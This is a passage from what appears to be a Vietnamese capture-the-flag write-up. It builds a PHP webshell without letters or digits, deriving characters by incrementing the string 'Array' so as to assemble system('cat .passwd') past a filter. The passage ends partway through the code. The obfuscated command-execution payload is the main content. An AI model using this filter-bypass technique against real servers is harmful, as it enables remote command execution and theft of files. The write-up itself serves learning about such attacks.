 Thử search google, ta tìm thấy 1 trang web khá hữu ích cho việc viết webshell cho bài này 
> https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/

Ta sẽ sử dụng những ký tự `'$' '_' '.' '+'` thay cho chữ cái để tạo thành một command shell để thực thi. Giả sử $_ = 'a' thì $_++ sẽ là 'b',... cứ cộng dần lên ký tự mà ta muốn rồi sau đó ghép nó lại.

Trong PHP, nếu ta muốn nối mảng và chuỗi thì mảng sẽ được chuyển thành chuỗi có giá trị là `Array`

![image](https://user-images.githubusercontent.com/80137840/220143975-a5df3a04-091a-45b0-a80f-9564d5cd9c96.png)

Và sau đó lấy chữ cái đầu tiên của chuỗi, ta có thể nhận được ký tự 'A'.

Mục đích cuối cùng của ta là tạo được chuỗi `system('cat .passwd')` vào **input**. Tuy nhiên tên hàm không phân biệt hoa thường nhưng command shell thì có, mà ký tự đầu tiên ta nhận được là 'A' nên ta sẽ xây dựng thêm hàm STRLOWER() bên ngoài để lowercase nội dung command shell.

Tiến hành xây dựng chuỗi `SYSTEM(STRLOWER('CAT .PASSWD'))`:

```
$_=[];
$_ = @"$_";  // $_ = "Array" (@ là toán tử kiểm soát lỗi, bất cứ khi nào nó được sử dụng với một biểu thức, bất kỳ thông báo lỗi nào có thể được tạo ra bởi biểu thức đó sẽ bị bỏ qua)
$_ = $_['!'=='@'];  // $_ = $_[0] = 'A' do bool('!'=='@') = false mà false == 0
$___ = $_;  // $___ = 'A'
$__ = $_;  // $__ = 'A'
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;  // $__ = 'S'
$___ = $__;  // $___ = 'S'
$__ = $_;  // $__ = 'A'
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;  // $__ = 'Y'
$___ .= $__;  // $___ = "SY"
$__ = $_;  // $__ = 'A'
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;  // $__ = 'S'
$___ .= $__;  // $___ = "SYS"
$__ = $_;  // $__ = 'A'
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;  // $__ = 'T'
$___ .= $__;  // $___ = "SYST"
$__ = $_;  // $__ = 'A'
++$__;++$__;++$__;++$__;  // $__ = 'E'
$___ .= $__;  // $___ = "SYSTE"
$__ = $_;  // $__ = 'A'
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;  // $__ = 'M'
$___ .= $__;  // $___ = "SYSTEM"
$__ = $_;  // $__ = 'A'

$_____ = '';
$__ = $_;  // $__ = 'A'
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;  // $__ = 'S'
$_____ .= $__;  // $_____ = 'S'
$__ = $_;  // $__ = 'A'
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;  // $__ = 'T'
$_____ .= $__;  // $_____ = "ST"
$__ = $_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;  // $__ = 'R'
$_____ .= $__;  // $_____ = "STR"
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;  // $__ = 'T'
$_____ .= $__;  // $_____ = "STRT"
```